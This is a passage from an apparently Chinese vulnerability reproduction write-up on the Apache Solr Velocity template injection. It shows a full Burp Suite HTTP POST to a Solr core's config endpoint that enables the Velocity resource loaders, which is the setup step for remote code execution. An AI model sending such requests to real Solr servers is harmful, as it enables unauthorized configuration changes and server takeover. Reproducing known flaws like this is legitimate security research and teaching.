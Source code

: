 **利用Burpsuite 发包 ,开启params.resource.loader.enabled**

> params.resource.loader.enabled 默认是false

由于我们修改的atom目录下的配置文件，所以我们只能拿这个存在配置缺陷的接口来攻击

```
http://www.0-sec.org:8983/solr/atom/config 
```

![image](../img/1c2e17ccb58d65cf65b14c12c41fcd2e.png)

**BurpSuite request**

```
POST /solr/atom/config HTTP/1.1
Host: www.0-sec.org:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 259
Connection: close
Upgrade-Insecure-Requests: 1 `{

“update-queryresponsewriter”: {

“startup”: “lazy”,

“name”: “velocity”,

“class”: “solr.VelocityResponseWriter”,

“template.base.dir”: “”,

“solr.resource.loader.enabled”: “true”,

“params.resource.loader.enabled”: “true”

}

}` 
```
